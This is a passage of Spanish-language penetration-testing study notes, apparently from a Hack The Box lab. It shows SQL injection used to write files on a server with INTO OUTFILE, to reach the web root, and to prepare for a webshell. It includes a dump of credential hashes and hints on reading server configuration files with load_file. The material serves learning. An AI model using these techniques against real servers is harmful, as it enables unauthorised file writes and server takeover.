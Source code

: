 <br>

    xJplz@htb[/htb]$ cat /tmp/credentials

    1       admin   392037dbba51f692776d6cefb6dd546d
    2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f

<br>

Tambien es posible directamente añadir al SELECT cadenas de archivos lo que nos permite escribir archivos arbitrarios en el servidor back-end.

<br>

    SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

<br>

Cuando nosotros cateamos el archivo, vemos el texto.

<br>

    xJplz@htb[/htb]$ cat /tmp/test.txt

    this is a test

<br>

    Jaiderpls@htb[/htb]$ ls -la /tmp/test.txt

    -rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt

<br>

Como podemos ver arriba, el archivo test.txt se creo con exito y es propiedad del usuario MySQL.

    SUGERENCIA: Las exporrtanciones de archivo avanzadas utilizan la funcion 'FROM_BASE64("base64_data")'  para poder escribir archivos largos/avanzados, incluidos datos binarios.

<br>

## ESCRITURA DE ARCHIVOS A TRAVES DE INYECCIONES SQL ##

<br>

Intentemos escribir un archivo de texto en webroot y verifiquemos si tenemos permisos de escritura. La siguiente consulta debe indicarnos "file written succesfully!" hacia /var/www/html/proof.txt

<br>

    select 'file written successfully!' into outfile '/var/www/html/proof.txt'

<br>

    NOTA: Para escribir un webshell, debemos conocer primero el drectorio base del servidor web (es decir, la raiz web). Una forma de encontrarlo es usando "load_file" para leer la configuracion del servidor que por lo general en Apache se encuentra en /etc/apache2/apache2.conf, y en NGINX en /etc/nginx/nginx.conf, o en configuraciones de IIS en %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, o podemos buscar en internet otras posibles rutas de configuraciones. Ademas podemos realiar un escaneo fuzzing e intentar escribir archivos en diferentes raices web posibles usando diccionarios. Finalmente, si nada de lo anterior funciona podemos usar los errores del servidor que se nos muestra e intentar encontrar el directorio web de esa manera.
